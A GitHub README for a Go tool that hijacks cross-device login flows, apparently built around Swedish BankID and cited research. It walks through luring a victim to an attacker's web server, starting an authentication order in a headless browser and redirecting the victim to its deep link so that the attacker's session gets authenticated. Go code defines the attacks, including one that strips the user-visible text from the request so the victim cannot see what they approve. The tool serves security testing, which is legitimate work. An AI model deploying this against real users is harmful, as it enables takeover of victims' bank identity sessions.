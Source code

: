 # Cross Device Authentication Tesing Tool

This tool was created to be able to easily test flaws in different cross device authentication protocols. Services relying on qr-codes and deep-links to authenticate remote or local browser sessions using their own mobile app are becoming increasingly popular, but testing their security can be quite difficult.

This tool relies on a headless browser to test for a simple attack that allows an attacker to start an authentication order against a service, extract or generate a deep link which will trick the victim's application to authenticate the remote session all on the fly as the victim is visiting our web server.

## Usage

Currently only one attack is available for use, slowly as other vulnerabilities get disclosed publicly more will be added. 

The attack available is to test Swedish BankID configurations, related to the research that can be found [here](https://mastersplinter.work/bankid)

This tool requires:
- `go >= 1.21.6` 
- `chromium` or `google-chrome` and the respective headless driver

After installing those dependencies the tool can be run with `go run .`.

## Attack steps

1. The victim visits the exposed web server hosted on port 8080 (victim can also be taken directly to step 2)
2. The victim clicks on the path hosting the attack
3. The headless browser goes to the target service and starts an authentication order
4. The deep-link is extracted/generated from the authentication order
5. The victim is redirected to the deep-link
    - Via server redirection straight to the deep link
    - To a secondary page that triggers the deep link with js and then navigates to the legitimate service website
6. After the victim authenticates on the service's mobile app our headless browser session will instead be authenticated

## Creating a new attack

While the tool might move towards configuration files to set these up, currently they are defined directly in the Golang code.

### Attack Type

An attack type is defined for each different IdP you are targeting, while the attack itself might differ service to service, the attack type is supposed to the define general parameters for the "family" of attacks:

```go
var BankIDAttack AttackType = AttackType{
	Name:      "bankid",
	Regex:     `(bankid:\/\/\/)?\?autostarttoken=[0-9a-fA-F]{8}-[0-9a-fA-F]{4}-[0-9a-fA-F]{4}-[0-9a-fA-F]{4}-[0-9a-fA-F]{12}&redirect=\w+`,
	Prefix:    "bankid:///",
	ReturnArg: "redirect",
}
```

- `Name`: Name for this type of attack
- `Regex`: Regex for the deep-link to be extracted
- `Prefix`: Prefix for the deep-link
- `ReturnArg`: Some IdPs like to redirect back to a webpage after auth using a parameter, set the name of such parameter if you want to try and hijack such a flow to find an open redirect

All of these parameters except `Name` are optional.

### Attack 

After defining your attack type you will now be able to use it to define an attack:

```go
type Attack struct {
	Url                 string                                                          // Main Url to visit
	RedirectURL         string                                                          // URL to redirect victim to (for higher impact)
	Actions             []chromedp.Action                                               // Actions of the headless browser
	CustomExtraction    func(string, string) string                                     // Custom action to extract the deep link
	RequestInterception func(ev *fetch.EventRequestPaused) *fetch.ContinueRequestParams // Action to modify request to get deep link
	Path                string                                                          // Path to host attack on
	Fixed               bool                                                            // Attack is fixed
	Type                AttackType                                                      // Type of attack
	CustomBrowserFlags  []chromedp.ExecAllocatorOption                                  // Custom flags to pass to the headless browser
	ExfiltrationSteps   []chromedp.Action                                               // Headless browsers steps to be taken to exfiltrate data (not required)
	ExfilArea           string                                                          // XPath for text to extract out of the page after exfiltration steps
}
```

Here is an example:

```go
{
    Url:  "https://www.bankid.com/demo",
    Path: "/bankid-demo",
    Actions: []chromedp.Action{
        chromedp.Sleep(1 * time.Second),
        chromedp.WaitVisible("/html/body/div/div[2]/div[1]/div[1]/div[1]/div/a[1]", chromedp.BySearch),
        chromedp.Click("/html/body/div/div[2]/div[1]/div[1]/div[1]/div/a[1]", chromedp.BySearch),
        chromedp.WaitVisible("/html/body/div/div[2]/div[1]/div[1]/div/div[2]/a", chromedp.BySearch),
        chromedp.Click("/html/body/div/div[2]/div[1]/div[1]/div/div[2]/a", chromedp.BySearch),
    },
    RedirectURL: "https://www.bankid.com/demo",
    Type:        BankIDAttack,
    ExfilArea:   `/html/body/div/div[2]/div[1]/div[1]/div/div[2]/div[2]/div[1]`,
    // Removing the test markdown text
    RequestInterception: func(ev *fetch.EventRequestPaused) *fetch.ContinueRequestParams {
        var fetchRequest *fetch.ContinueRequestParams
        if strings.Contains(ev.Request.URL, "/demo/api/authentication") {
            r, _ := base64.StdEncoding.DecodeString((ev.Request.PostDataEntries[0].Bytes))
            re := regexp.MustCompile(`"userVisibleData":"[^"]*"`)
            noDeviceData := re.ReplaceAllString(string(r), `"userVisibleData":""`)
            fetchRequest = fetch.ContinueRequest(ev.RequestID).WithPostData(base64.StdEncoding.EncodeToString([]byte(noDeviceData)))
        } else {
            fetchRequest = fetch.ContinueRequest(ev.RequestID)
        }
        return fetchRequest
    },
},
```

As shown the tool heavily relies on the `chromedp`, I recommend reading up on their docs and their examples to see the full extent of its capabilities [here](https://github.com/chromedp/chromedp).

Hopefully as more attacks get released here they will be sufficient to draw inspiration from.

### Running your new attack

Now that your attacks are defined, head over the `main.go` to change the default attack list and you should be able to see your brand you attacks when visiting `localhost:8000`

## Contributing

I know right now the tool is a bit rough around the edges, if more people find it valuable and would like a better interface with the tool (CLI and config options) I will definitely consider building it.

If you feel like that is something you would like to do feel free to shoot over a PR and I will be happy to merge it if it improves the usability and/or performance of the tool.

### TODO

- Dockerized solution including all dependencies like the headless browser
- Configuration based system that allows attack definition via JSON

### Adding more attacks

I will be adding more I promise, however if you have some cool ones you would like to contribute please feel free to open a PR.

## Disclaimer

Feel free to use this tool however you like, of course I do not encourage nor take any responsibility for any illegal behavior done with this tool.